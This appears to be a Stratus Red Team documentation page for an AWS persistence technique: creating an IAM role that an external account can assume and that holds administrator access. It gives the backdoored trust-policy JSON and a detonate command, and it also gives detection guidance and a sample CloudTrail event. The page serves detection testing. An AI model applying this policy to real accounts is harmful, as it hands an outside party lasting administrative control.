 ```yaml
---
title: Create a new backdoor IAM Role
---
```


# Create a new backdoor IAM Role




Platform: AWS

## MITRE ATT&CK Tactics


- Persistence

## Description


Establishes persistence by creating a backdoored new role with a policy allowing it to be assumed from an external AWS account and administrative permissions.

<span style="font-variant: small-caps;">Warm-up</span>: None.

<span style="font-variant: small-caps;">Detonation</span>: 

- Create a new IAM role with an assume role policy backdoored, making it accessible from an external, fictitious AWS account:

```
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com"
      },
      "Action": "sts:AssumeRole"
    },
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```

and attach the 'AdministratorAccess' managed IAM policy to it. 

References:

- https://www.invictus-ir.com/news/the-curious-case-of-dangerdev-protonmail-me


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.persistence.iam-create-backdoor-role
```
## Detection


- Through [IAM Access Analyzer](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-iam-role), 
which generates a finding when a role can be assumed from a new AWS account or publicly.

- Identify a call to <code>CreateRole</code> closely followed by <code>AttachRolePolicy</code> with an administrator policy.

- Identify a call to <code>CreateRole</code> that contains an assumeRolePolicyDocument in the requestParameters that allows access from an external AWS account. Sample event:

```
{
  "eventSource": "iam.amazonaws.com",
  "eventName": "CreateRole",
  "requestParameters": {
	"roleName": "malicious-iam-role",
	"assumeRolePolicyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"Service\": \"ec2.amazonaws.com\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    },\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}"
   }
}
```


